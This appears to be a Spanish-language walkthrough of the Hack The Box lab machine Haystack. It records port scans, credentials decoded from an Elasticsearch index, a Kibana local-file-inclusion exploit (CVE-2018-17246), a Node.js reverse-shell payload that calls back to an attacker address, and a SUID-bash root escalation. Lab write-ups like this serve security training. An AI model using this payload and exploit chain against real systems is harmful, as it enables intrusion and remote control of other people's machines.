 # Máquina Haystack

### Intrusión

Comenzamos con nuestros comandos de nmap

```
sudo nmap -p- --open -sS -n -Pn --min-rate 5000 -vvv 10.10.10.115 -oG allPorts
```
```
sudo nmap -p22,80,9200 -sCV 10.10.10.115 -oN Targeted
```
``
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 23:39 CEST
Nmap scan report for 10.10.10.115
Host is up (0.042s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a8de2928b14b63fe42f3a4743238b2b (RSA)
|   256 e75a3a978e8e728769a30dd100bc1f09 (ECDSA)
|_  256 01d259b2660a9749205f1c84eb81ed95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.12.2
9200/tcp open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: DELETE

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
``

mv ~/Downloads/Descargas/needle.jpg .
ExifTool Version Number         : 12.16
File Name                       : needle.jpg
Directory                       : .
File Size                       : 179 KiB
File Modification Date/Time     : 2023:04:21 23:42:24+02:00
File Access Date/Time           : 2023:04:21 23:42:24+02:00
File Inode Change Date/Time     : 2023:04:21 23:42:38+02:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 96
Y Resolution                    : 96
Resolution Unit                 : inches
Software                        : paint.net 4.1.1
User Comment                    : CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 90.
Image Width                     : 1200
Image Height                    : 803
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1200x803
Megapixels                      : 0.964

strings -n 10 needle.jpg

bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
echo 'bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==' | base64 -d
"la aguja en el pajar es "clave"%"

Nada wfuzz tipico

wfuzz -c -t 200 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.115:9200/FUZZ

000000687:   200        0 L      1 W        338 Ch      "quotes"
000003642:   200        0 L      1 W        1010 Ch     "bank"
000007004:   200        0 L      1 W        2 Ch        "*checkout*"                                                                                      
000016413:   200        0 L      1 W        4136 Ch     "*"                                                                                               
000015463:   200        0 L      1 W        2 Ch        "*docroot*"

http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000

curl 'http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000' > haystack.txt

cat haystack.txt| grep "clave"

"quote" : "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
"quote" : "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
❯ echo 'cGFzczogc3BhbmlzaC5pcy5rZXk=' | base64 -d
pass: spanish.is.key%                                                                                                                                        ❯ echo 'dXNlcjogc2VjdXJpdHkg' |base64 -d
user: security %

ssh connect

sudo -l nothing

[security@haystack home]$ cat /proc/net/tcp | grep '00000000:0000 0A'
   0: 00000000:0050 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 38071 1 ffff93b16e2407c0 100 0 0 10 0                     
   1: 00000000:23F0 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 38070 1 ffff93b16e240f80 100 0 0 10 0                     
   2: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 37910 1 ffff93b16e240000 100 0 0 10 0                     
   3: 0100007F:15E1 00000000:0000 0A 00000000:00000000 00:00000000 00000000   994        0 260693 1 ffff93b16e2464c0 100 0 0 10 0  
0.0.0.0:80
0.0.0.0:9200
0.0.0.0:22
127.0.0.1:5601

ssh> -L 5601:localhost:5601


https://github.com/mpgn/CVE-2018-17246

http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/kraken.js

[security@haystack tmp]$ cat kraken.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
[security@haystack tmp]$ ls
hsperfdata_root  systemd-private-0e42240d40d449479f1827df5cdc85f1-chronyd.service-uWVFDs	vmware-root
jruby-6234	systemd-private-0e42240d40d449479f1827df5cdc85f1-elasticsearch.service-ux1hQZ	vmware-root_6238-700485133
kraken.js	systemd-private-0e42240d40d449479f1827df5cdc85f1-nginx.service-McmzxV
[security@haystack tmp]$ cat kraken.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();



bash-4.2$ ls -la /bin/bash
-rwsr-xr-x. 1 root root 964608 oct 30  2018 /bin/bash

bash -p
whoami
root
